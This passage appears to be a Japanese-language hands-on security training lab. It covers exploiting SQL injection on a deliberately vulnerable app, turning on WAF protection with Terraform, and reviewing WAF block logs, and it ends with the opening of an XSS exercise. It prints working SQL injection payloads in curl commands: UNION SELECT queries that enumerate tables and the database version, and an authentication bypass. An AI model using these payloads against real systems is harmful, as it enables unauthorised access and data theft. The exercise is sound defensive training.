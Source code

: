 **課題**: 
1. 何人のユーザーアカウントが漏洩しましたか？
2. 管理者アカウントは含まれていますか？
3. パスワードから推測できるセキュリティポリシーはありますか？

#### ステップ2: 攻撃の拡大可能性評価
```bash
# 1. 他のテーブルの調査
curl "http://<target-url>/search?q=' UNION SELECT name FROM sqlite_master WHERE type='table'-- "

# 2. システム情報の取得（可能な場合）
curl "http://<target-url>/search?q=' UNION SELECT sqlite_version()-- "
```

**課題**: この攻撃を起点として、どのような追加の攻撃が可能ですか？

### 演習1.4: 防御策の実装と検証

#### ステップ1: WAF保護の有効化
```bash
# セキュリティレベルを2に変更
sed -i 's/security_level = 1/security_level = 2/' terraform/terraform.tfvars
cd terraform && terraform apply
```

#### ステップ2: 防御効果の確認
```bash
# 1. 同じ攻撃を再実行
curl -X POST "http://<target-url>/login" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d "username=admin' OR '1'='1-- &password=anything"

# 期待される結果: 403 Forbidden
```

#### ステップ3: WAFログの分析
```bash
# WAFログの確認
aws logs filter-log-events \
  --log-group-name "/aws/wafv2/gameday" \
  --filter-pattern "{ $.action = \"BLOCK\" }" \
  --start-time $(date -d '10 minutes ago' +%s)000
```

**課題**: WAFはどのルールで攻撃をブロックしましたか？ブロックされなかった攻撃パターンはありますか？

---

## 演習2: クロスサイトスクリプティング（XSS）脆弱性の発見と悪用

### 学習目標
- XSS攻撃の種類と仕組みを理解する
- 反射型XSSと格納型XSSの違いを学ぶ
- XSS攻撃の実際の影響を体験する
- 効果的な防御策を実装する
